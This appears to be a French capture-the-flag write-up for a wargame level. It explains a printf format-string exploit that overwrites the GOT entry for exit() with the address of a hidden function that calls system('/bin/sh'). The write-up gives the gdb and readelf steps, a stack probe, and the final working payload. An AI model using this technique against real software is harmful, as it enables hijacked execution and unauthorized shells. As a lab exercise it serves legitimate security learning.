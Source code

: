Si on disass notre executable il call printf avec notre input et utilise exit pour terminer le programme.
On remarque aussi que une fonction est présente mais n'est pas appelée, la fonction o exécute system("/bin/sh").
On en déduit qu'il va falloir detourner notre executable afin qu'il lance la fonction qui n'est pas utilisée ( la fonction o )

Vu que notre input est directement utilisé par printf nous pouvons effectuer un format string attack, mais contrairement a l'exercice d'avant nous ne pouvons pas utiliser le retour de la fonction pour l'exploit car la fonction se termine avant avec l'appel de exit(). Donc il n'y a pas d'EIP a overwrite.
Cepedant l'exécutable utilise des 'dynamic link' et une faille est possible en écrasant la valeur de notre relocation (effectuée par plt) de la fonction exit. On va donc chercher a remplacer la valeur de notre GOT ( global offset table ) qui contient l'adresse pour exécuter exit().
Si on remplace l'adresse par celle de notre fonction o, notre fonction sera donc exécutée quand un appel à exit.plt sera effectué.

Pour obtenir les différentes adresses:
Dans gdb:
--> info functions
- 0x080484a4  o
et pour avoir l'emplacement de la relocation on utilise readelf
--> readelf -r ./level5
- 08049838  00000607 R_386_JUMP_SLOT   00000000   exit

Pour récapituler nous devons donc écrire 0x080484a4 (o) dans 08049838 (reloc)
0x080484a4 en décimal vaut 134513828

comme dans l'ancien exercice on utilise %p pour trouver l'emplacement de notre format string dans la stack

--> python -c "print('AAAA' + ' %p'*10)" | ./level5
- AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520

Notre string 'AAAA' est le 4eme element.
Nous pouvons donc pointer dessus de cette maniere '%4\$p'
--> python -c "print('AAAA' + ' %4\$p')" | ./level5
- AAAA 0x41414141

Cela fonctionne correctement il nous reste donc à tout assembler, c'est à dire écrire notre adresse 0x08049838 (reloc) notre nombre 0x080484a4 (o) en utilisant le %n de printf. ( attention a bien faire -4 a notre valeur car l'adresse que nous ecrivont avant vaut 4 soit 134513824 )
--> python -c "print('\x38\x98\x04\x08' + '%134513824d' + ' %4\$n')" | ./level5
On attend une vingtaine de secondes que tous les caractères soient entrés. 
Il ne se passe rien car notre appel system se fini directement, il faut donc garder le stdin ouvert afin de pouvoir interagir avec notre sh qui est executé ! 

--> (python -c "print('\x38\x98\x04\x08' + '%134513824d' + ' %4\$n')" ; cat) | ./level5
